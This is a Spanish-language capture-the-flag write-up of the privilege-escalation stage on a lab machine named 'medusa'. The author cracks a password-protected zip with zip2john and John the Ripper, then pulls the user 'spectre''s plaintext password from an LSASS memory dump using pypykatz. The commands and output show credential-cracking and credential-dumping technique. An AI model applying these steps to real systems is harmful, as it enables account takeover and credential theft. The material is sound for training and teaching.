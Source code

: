 Conseguido!

## Escalado de privilegios

Enumerando un poco la máquina encuentro tanto el usuario "spectre" como un fichero zip sospecho en la carpeta "/...".

```
www-data@medusa:/...$ ls -la /home
total 12
drwxr-xr-x  3 root    root    4096 Jan 15 09:02 .
drwxr-xr-x 19 root    root    4096 Jan 15 11:07 ..
drwxr-xr-x  3 spectre spectre 4096 Jan 18 19:46 spectre
```

```
www-data@medusa:/...$ pwd; ls -la
/...
total 12108
drwxr-xr-x  2 root     root         4096 Jan 18 15:14 .
drwxr-xr-x 19 root     root         4096 Jan 15 11:07 ..
-rw-------  1 www-data www-data 12387024 Jan 18 15:13 old_files.zip
```

El fichero tiene contraseña, por lo que lo paso a mi máquina para intentar crackearlo.

```
$ zip2john old_files.zip > hash        

$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)

$ john hash --show                                     
old_files.zip/lsass.DMP:medusa666:lsass.DMP:old_files.zip:old_files.zip

1 password hash cracked, 0 left
```

Tras obtener la contraseña, procedo a extraer un archivo "lsass.dmp".

**¿Qué es un fichero dmp?**\\
"Los archivos de volcado de memoria de Windows con la extensión DMP son, básicamente, archivos del sistema que se almacenan en formato binario.[...]"
-- [Fuente](https://www.islabit.com/115055/que-es-un-archivo-dmp-y-como-abrirlos-en-windows-10.html)

Para extraer la información uso "pypykatz" y se puede ver la contraseña del usuario "spectre".

```
$ sudo pypykatz lsa --json minidump lsass.DMP
[...]
                        "password": "5p3ctr3_p0is0n_xX",
                        "password_raw": "35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000",
                        "pin": null,
                        "pin_raw": null,
                        "tickets": [],
                        "username": "spectre"
                    }
                ],
[...]
kerberos_creds": [
                    {
                        "cardinfo": null,
                        "credtype": "kerberos",
                        "domainname": "Medusa-PC",
```